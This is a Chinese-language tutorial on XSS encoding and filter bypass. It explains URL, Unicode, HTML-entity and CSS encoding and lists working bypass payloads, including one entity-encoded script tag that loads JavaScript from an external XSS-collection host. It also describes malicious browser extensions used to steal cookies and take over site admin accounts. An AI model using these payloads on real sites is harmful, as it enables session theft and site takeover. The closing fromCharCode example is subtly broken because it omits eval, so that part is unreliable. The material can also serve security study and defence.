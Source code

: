 # XSS编码与绕过

![](/attackUsers/xss/image/xss-17.png)

---

## 01. URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。

URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

这个在编码DOM XSS可能会用到，比如我上次说的`<<XSS分类与漏洞挖掘>>`0×04节DOM XSS 在chrome maxthon firefox里对URL里的a=后面的字节进行了URL进行编码，只能在360浏览器里成功，这就是浏览器对URL进行了URL编码。

## 02. unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。

Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

## 03. HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

例如：
```html
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

可以正常显示。

但是当你把src或者img进行html编码就不行了

例如：
```html
img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

## 04. CSS编码
这个不是太常用。就是/斜杠加上1-6位十六进制

之前在IE5之前都可以用expression来调用js时，这个编码很有用。 现在大多都是用于CSS小图标。

## 05. 假设
网站检测script标签里的src值是否为网站(关键字有`http&https&com&cn&net&&js`)

那我们该怎么绕过呢，看下面的实例代码：

```html
<script
src="&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#56;&#46;&#112;&#119;&#47;&#98;&#103;&#70;&#102;&#66;&#120;&#63;&#49;&#52;&#49;&#57;&#50;&#50;&#57;&#53;&#54;&#53;"></script>

```

打开审查元素——网络，我们成功的看到了我们的JS被加载了

![](/attackUsers/xss/image/xss-37.png)

XSS平台里也获取到了。

## 05. 常见的绕过方式

```html
<sCrIpt>alert(1)</script>

<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>

<scr<script>rip>alalertert</scr</script>rip> (需要利用waf的不完整性)


//后面会讲
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

```

```html
标签属性`="javascript:JS代码"`(只对支持js伪协议的属性起作用)

```

```html
<标签 on事件="js代码">
```

```html
<script
woaini>
alert(123)
</script
woaini>
```

浏览器下会把换行 TAB符当成空格，把后面的字符当做属性来解析

## 06. 插件安全
即使你网站做的再安全，WAF再怎么完整。我利用插件照样可以绕过。插件的有它的特殊性，也是这个特殊性成就了他的安全问题，那就是“跨域”。

** 我在里说下插件是如何渲染到页面的： **
> 用户打开网站——发送数据包——服务器响应并发送Response包——浏览器收到Response包——渲染(先渲染Response包，再渲染插件的代码)

** 也就是说我在插件里写了一段js，那么用户安装后，凡是打开网站。浏览器渲染后，就可以获取用户的cookies。如果攻击者事先有准备，还可以利用csrf攻击。 **这里我们大胆假设下：

** 假设1： **攻击者把XSS代码封装到插件里，上传到浏览器插件下载网站(管理不严，管理员根本不可能一行一行代码看)，上传成功后。用户下载，并安装。那么攻击者就可以坐在电脑前，喝着咖啡，看着不断刷新的xss数据流…

** 假设2： **攻击者拥有dedecms的csrf(可以添加管理员)，后面的和假设1一样。当网站管理员不小心安装或者使用了带有插件浏览器，网站就会被攻击者控制。有些人会问，几率那么小，怎么可能跑到我身上。是不太可能跑到你身上，倒是有可能跑到其他站长身上，当你想想中国站长有多少时，相信你就会明白了

** 假设3： **攻击者拥有某个浏览器插件的XSC漏洞，再结合插件安全问题，就可以实现用户打开某个网站，就会被不知不觉中安装插件，有些人会说，有XSC我就直接执行任意代码了，谁还蛋疼式的去安装插件。如果攻击者想隐蔽式的攻击呢？而且控制电脑获取cookies我想这个应该比直接安装插件更加麻烦吧？当然攻击者也可以两个同时进行。

当然了，也有很多人会说，我安装安全健康绿色无污染的插件不就不怕了吗。

楼主说的十分有理，只不过你忽视了插件本身的安全问题，我之前所说的都是利用插件的特殊性来完成攻击，可是我并没有说插件本身的安全。

这时恐怕又有人质疑了，插件即使不安全，那也需要用户输入特殊的字符串里完成攻击，你这不就是在自己插自己么。

我所说的插件安全问题指的不是这，而是控制插件的数据流。因为插件的安全问题本身就没多大的利用价值，大多数时候都是自己插自己。

假设有一个在线翻译的插件，鼠标滑词，自动翻译。而这个技术就需要利用到AJAX，而AJAX利用的就是厂商提供的API，而API很多时候都在二级域名，安全性相对来说就比较低了。如果控制API了，那么就可以控制API发送给插件的数据流，从而达到攻击。

** 流程图就是下面这样： **
> 黑客发现插件调取的API网站安全漏洞——重写了发送的数据包——插件获取被重写API数据——解析并把恶意代码渲染到页面——攻击成功。

当然了，不止API，有的插件还调用了外部的JS、CSS、iframe(HTML)等，我们也可以控制他们里来完成攻击。

## 07. 绕过 magic_quotes_gpc
** magic_quotes_gpc=ON **是php中的安全设置，开启后会把一些特殊字符进行轮换，比如`'`(单引号)转换为`\'`，`"`(双引号)转换为`\"` ，`\`转换为`\\`

比如：`<script>alert("xss");</script>`会转换为`<script>alert(\"xss\");</script>`,这样我们的xss就不生效了。

针对开启了`magic_quotes_gpc`的网站，我们可以通过javascript中的`String.fromCharCode`方法来绕过，我们可以把`alert("XSS");`转换为

```html
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)
```

那么我们的XSS语句就变成了

```html
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 
```

String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。

